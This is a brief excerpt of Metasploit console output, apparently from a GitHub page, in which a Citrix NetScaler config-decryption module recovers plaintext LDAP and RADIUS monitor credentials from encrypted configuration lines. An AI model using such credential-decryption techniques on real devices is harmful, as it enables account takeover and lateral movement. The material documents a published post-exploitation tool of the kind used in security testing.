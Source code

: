 ```
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 5c35e0aa5c3d999e9ff10de1fa32910f9ac28b1ee8824c2301ac964e1f5f987e-encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=cesium137,DC=io" -bindDN ldap@cesium137.io -filter CN=builtin -devno 13863
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
add lb monitor mon-radius RADIUS -respCode 2 -userName ldap -password fda3a1c5990558d4bfae059f27191f4c91a2dfa826d7318db287e109f5da39f9 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35  -LRTM DISABLED -resptimeout 4 -destPort 1812 -devno 13864
[+] User: ldap
[+] Pass: Gr33n3gg$
[*] Auxiliary module execution completed
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```